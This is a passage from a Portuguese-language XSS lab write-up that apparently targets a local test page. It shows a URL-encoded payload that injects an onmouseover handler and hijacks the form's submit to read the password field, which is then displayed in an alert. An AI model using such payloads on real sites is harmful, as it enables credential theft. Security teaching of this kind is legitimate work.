 ```
%22%20onmouseover%3D%22%0A%09document.forms%5B0%5D.onsubmit%20%3D%20function%20demo%20%28%29%20%7B%0A%09%09var%20pass%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09alert%28pass%29%3B%0A%09%7D
```

Gerando a seguinte URL:

- [http://localhost/07/?email=%22%20onmouseover%3D%22%0A%09document.forms%5B0%5D.onsubmit%20%3D%20function%20demo%20%28%29%20%7B%0A%09%09var%20pass%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09alert%28pass%29%3B%0A%09%7D&password=](http://localhost/07/?email=%22%20onmouseover%3D%22%0A%09document.forms%5B0%5D.onsubmit%20%3D%20function%20demo%20%28%29%20%7B%0A%09%09var%20pass%20%3D%20document.forms%5B0%5D.elements%5B1%5D.value%3B%0A%09%09alert%28pass%29%3B%0A%09%7D&password=)

Com isso, o código HTML foi alterado e o script injetado no *event listener*.

![Event listener](/img/posts/2023-06-21-beyond-the-alert-21.png)

Desta forma, quando o usuário submeter o formulário com usuário e senha, o alerta será impresso com a senha.

![Resultado](/img/posts/2023-06-21-beyond-the-alert-22.png)

#### Referências

- [https://aws.amazon.com/pt/what-is/event-listener/](https://aws.amazon.com/pt/what-is/event-listener/)
- [https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes#event_handler_attributes](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes#event_handler_attributes)

### *Task 8 - Redirect on Click*
